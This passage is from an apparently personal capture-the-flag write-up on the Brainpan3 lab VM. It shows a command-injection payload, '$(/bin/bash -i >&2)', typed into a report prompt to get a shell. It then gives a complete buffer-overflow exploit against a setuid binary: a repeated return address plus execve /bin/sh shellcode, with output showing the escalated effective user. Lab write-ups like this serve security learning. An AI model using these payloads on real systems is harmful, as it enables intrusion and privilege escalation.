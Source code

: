 ```
After trying a few different reports I noticed that giving something like $(id) for a report gave a longer-than-expected output. This means there is probably some command injecion possible. $(/bin/bash -i >&2) spawned the first shell. (superkojiman told me this was unintended and that there is another vulnerability to find)

>```
>SELECTED: 1
>
>ENTER REPORT, END WITH NEW LINE:
>
>$(/bin/bash -i >&2)
>
>REPORT [$(/bin/bash -i >&2)]
>SENDING TO REPORT MODULE
>
>bash: cannot set terminal process group (2195): Inappropriate ioctl for device
>bash: no job control in this shell
>anansi@brainpan3:/$ 
>```

# 5. Becoming reynard

After some enumeration I discovered there is a suid reynard binary in /home/reynard/private/cryptor

running this binary:

>```
>gdb-peda$ r $(python -c 'print "A"*116') $(python -c 'print "B"*23')
>Stopped reason: SIGSEGV
>0x41414141 in ?? ()
>```

After some looking around in IDA we find that the key is stored in the .bss segment at a set location.

>```
>.bss:0804A080 ; char key[100]
>.bss:0804A080 key             db 64h dup(?)           ; DATA XREF: sub_80485ED+18o
>.bss:0804A080                                         ; sub_80485ED+C0o
>```

Since NX is not enabled for this binary and the key is stored at 0x804a080 in the .bss segment every time, this becomes a standard buffer overflow with shellcode in the key:

>```
>./cryptor $(python -c 'print "\x80\xa0\x04\x08"*29') $(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
>```

In action:

>```bash
>anansi@brainpan3:/home/reynard/private$ $ ./cryptor $(python -c 'print "\x80\xa0\x04\x08"*29') $(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
>$ id
>uid=1000(anansi) gid=1003(webdev) euid=1002(reynard) groups=1002(reynard)
>```

Might need to run a few times before it fires to get the alignment right.

For bonus points we can now decrypt sekret.txt.enc with xortool (it finds key:\xd2):

```